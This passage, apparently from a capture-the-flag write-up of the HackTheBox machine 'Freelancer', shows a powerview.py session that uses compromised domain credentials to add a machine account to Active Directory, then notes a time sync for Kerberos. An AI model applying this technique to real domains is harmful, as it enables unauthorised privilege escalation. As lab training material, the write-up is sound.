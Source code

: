 ![](images/Domain_Controller.jpg)

First we used `powerview.py` to add a `computer` to the `domain`.

- [https://github.com/aniqfakhrul/powerview.py](https://github.com/aniqfakhrul/powerview.py)

```c
┌──(kali㉿kali)-[~]
└─$ powerview lorra199:'PWN3D#l0rr@Armessa199'@freelancer.htb
Logging directory is set to /home/kali/.powerview/logs/freelancer.htb
(LDAP)-[freelancer.htb]-[FREELANCER\lorra199]
PV > Add-ADComputer -ComputerName foobar -ComputerPass foobar
[2024-06-01 20:00:07] Opening domain FREELANCER...
[2024-06-01 20:00:08] Successfully added machine account foobar$ with password foobar.
(LDAP)-[freelancer.htb]-[FREELANCER\lorra199]
```

Next, since the box was `cursed af` we had to `synchronize` our local time with the `Domain Controller` to use `Kerberos`.
